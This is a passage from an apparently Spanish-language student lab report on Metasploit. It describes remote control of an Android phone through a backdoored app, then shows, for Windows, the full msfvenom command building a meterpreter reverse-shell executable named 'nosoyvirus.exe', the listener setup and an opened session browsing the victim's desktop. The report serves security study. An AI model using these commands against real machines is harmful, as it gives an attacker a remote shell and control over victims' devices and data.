 A partir de ese momento, si la víctima abre la aplicación instalada, el atacante ganará control total del equipo. Se establece la conexión y el atacante puede ejectuar comandos sobre el equipo atacado.

Vemos que desde el shell reverso se puede obtener información del sistema y manipular las funciones que posee el dispositivo. Como hacer un dump de las llamadas, de los mensajes de texto y hasta envíar SMS a través de la consola.

\subsubsection*{Meterpreter en windows}

Para realizar el mismo ataque en Windows, podría utilizarse, como sugiere el enunciado, un pdf, pero por no tener una máquina con WinXP se decidió utilizar un \texttt{.exe} como vector de ataque. Realizando el siguiente procedimiento.

\begin{lstlisting}[breaklines=true]
$ msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.59.101.15 LPORT=4455 -f exe -o nosoyvirus.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 206403 bytes
Final size of exe file: 212992 bytes
Saved as: nosoyvirus.exe
\end{lstlisting}

Luego en el equipo atacante

\begin{lstlisting}[breaklines=true]
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp
payload => windows/x64/meterpreter_reverse_tcp
msf exploit(multi/handler) > set lhost 10.59.101.15
lhost => 10.59.101.15
msf exploit(multi/handler) > set lport 4455
lport => 4455
msf exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.59.101.15:4455
[*] Meterpreter session 1 opened (10.59.101.15:4455 -> 10.59.101.23:49159) at 2018-10-02 08:49:20 -0300

meterpreter > ls
Listing: C:\Users\pablo\Desktop
===============================

Mode              Size       Type  Last modified              Name
----              ----       ----  -------------              ----
100777/rwxrwxrwx  120682992  fil   2018-10-01 09:33:59 -0300  AcroRdrDC1801120063_en_US.exe
100666/rw-rw-rw-  282        fil   2018-09-08 18:32:05 -0300  desktop.ini
100777/rwxrwxrwx  341        fil   2018-10-01 10:14:46 -0300  nosoyviru.exe
100777/rwxrwxrwx  212992     fil   2018-10-02 08:45:30 -0300  nosoyvirus.exe
100666/rw-rw-rw-  46214      fil   2018-10-01 10:08:01 -0300  nosoyvirus.pdf
\end{lstlisting}

